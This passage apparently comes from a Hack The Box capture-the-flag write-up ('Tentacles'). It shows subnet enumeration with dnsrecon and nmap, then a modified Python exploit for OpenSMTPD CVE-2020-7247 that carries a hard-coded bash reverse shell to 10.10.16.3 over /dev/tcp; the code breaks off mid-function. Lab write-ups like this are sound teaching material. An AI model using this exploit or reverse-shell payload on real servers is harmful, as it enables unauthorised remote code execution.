 And we got another Ip range

first I performed a reverse lookup on this subnet with dnsrecon
```bash
darkrider@sunshine:~/hackthebox/boxes/tentacles$ dnsrecon -r 10.241.251.0/24 -n 10.10.10.224 -d anything
[*] Reverse Look-up of a Range
[*] Performing Reverse Lookup from 10.241.251.0 to 10.241.251.255
[+] PTR srvpod01.realcorp.htb 10.241.251.113
[+] 1 Records Found


```
this gave us 1 up ip and now enumerating that ip with nmap
```bash
$ proxychains nmap --top-ports 6 10.241.251.113

```

We got 10.241.251.113 is up and have smtp port 25 open

## SMTP exploitation

It is running OpenSMTPD, I searched for this online and found some exploits (CVE-2020-7247)
https://github.com/FiroSolutions/cve-2020-7247-exploit

I modified this exploit litlle bit

```python

import socket, time
import sys

if len(sys.argv) < 2:
    print("\n\nUsage: python3 exploit.py machine-ip")
    exit()
HOST = sys.argv[1]
PORT = 25              # The same port as used by the server
s = None

writewhat = 'bash -c "bash -i >& /dev/tcp/10.10.16.3/1234 0>&1"' # hard coded rev shell
payload = b"""\r\n
#0\r\n
#1\r\n
#2\r\n
#3\r\n
#4\r\n
#5\r\n
#6\r\n
#7\r\n
#8\r\n
#9\r\n
#a\r\n
#b\r\n
#c\r\n
#d\r\n
"""+writewhat.encode()+b"""
.
"""

for res in socket.getaddrinfo(HOST, PORT, socket.AF_UNSPEC, socket.SOCK_STREAM):
    af, socktype, proto, canonname, sa = res
    try:
        s = socket.socket(af, socktype, proto)
    except OSError as msg:
        s = None
```